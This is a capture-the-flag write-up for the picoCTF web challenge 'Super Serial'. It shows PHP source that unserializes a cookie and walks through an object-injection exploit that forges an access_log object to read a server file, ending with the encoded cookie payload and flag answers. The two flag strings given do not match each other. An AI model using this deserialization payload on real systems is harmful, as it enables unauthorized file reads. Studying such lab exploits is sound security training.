




# Super Serial
### Points: 

## Category
#### Web Exploitation

## Question
#### 
### Hint
>#### 


## Solution
### Look at this website

We must recover the flag stored on this website at `../flag`

An the site, there is only one page: `index.php`

There is also a `robots.txt`:

```
User-agent: *
Disallow: /admin.phps
```


With this hint, we found other pages:

```
index.php
cookie.php
authentication.php
index.phps
cookie.phps
authentication.phps
```

We can see source code of pages in `.phps` files and there is something interesting:

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

The object supposed to be deserialized is `permissions` but it does not appear to be vulnerable (SQL injection):

```php
class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

	function is_admin() {
		$admin = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] == 1) {
				$admin = true;
			}
		}
		return $admin;
	}
}
```

However, we can serialize an another object which will allow us to read files on the server:

```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```

So, we create an `access_log` which will read `../flag`:

```php
echo(serialize(new access_log("../flag")));
// -> O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

Encode it in base64 and put it in `login` cookie:

```
login: TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```


To sum up:

- `$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));` serialize an `access_log` object with `$log_file="../flag"`
- `$g = $perm->is_guest();` throw an error because `access_log` doesn't have `is_guest` method
- the error is catch by `catch(Error $e)`
- `die("Deserialization error. ".$perm);` call the `__toString` method of `access_log` which read `../flag` and display it content

And we get `Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}`

The flag is: `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}`


## Flag
`picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}`